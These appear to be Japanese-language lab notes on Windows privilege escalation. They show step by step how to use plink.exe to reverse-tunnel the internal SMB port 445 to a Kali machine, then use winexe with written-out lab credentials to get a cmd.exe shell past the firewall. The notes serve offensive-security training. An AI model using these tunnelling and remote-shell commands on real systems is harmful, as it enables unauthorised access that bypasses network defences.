 Kali上でexploitコードを実行する方が簡単な場合もありますが、脆弱なプログラムは内部ポートでリッスンしています。 このような場合、Kali上のポートをWindowsの内部ポートに転送する必要があります。これにはplink.exeというプログラム（PuTTYの製造元）を使用できます。   
### plink.exe
plink.exeを使用したポートフォワーディングコマンドの一般的な書式です。
```
> plink.exe <user>@<kali> -R <kaliport>:<target-IP>:<target-port>
```
plink.exe は Kali に SSH 接続することを要求し、SSH トンネルを使用してポートを転送します。
# Privilege Escalation
1. まず、winexeでリモートログインができることを確認します。
```
# winexe -U 'admin%password123' //192.168.1.22 cmd.exe
```
2. 管理者用コマンドプロンプトを使用して、ファイアウォールを再度有効化する。
```
> netsh advfirewall set allprofiles state on
```
3. これでwinexeコマンドが失敗することを確認します。
4. plink.exeをWindowsにコピーし、KaliのSMBサーバを停止させます（使用している場合）。
5. Kali の SSH サーバーが動作しており、root ログインを許可していることを確認します。etc/ssh/sshd_config で "PermitRootLogin yes" オプションがコメントアウトされていないことを確認します。 必要であれば SSH サービスを再起動します。
6. Windowsでは、plink.exeを使用して、Kaliのポート445をWindowsのポート445に転送してください。
```
> plink.exe root@192.168.100.153 -R 445:127.0.0.1:445
plink.exe root@192.168.100.153 -R 445:127.0.0.1:445
Using username "root".
root@192.168.100.153's password: toor

※プロンプトは返ってこない
```
netstatコマンドで445がLISTENしているのを確認する

![2022-11-16_10-22-32.png](../../_resources/2022-11-16_10-22-32.png)


7. Kali では、winexe コマンドを localhost (または 127.0.0.1) を指すように修正し、ポートフォワード経由でシェルを取得するように実行します。
```
# winexe -U 'admin%password123' //localhost cmd.exe
```


![2022-11-16_10-20-06.png](../../_resources/2022-11-16_10-20-06.png)





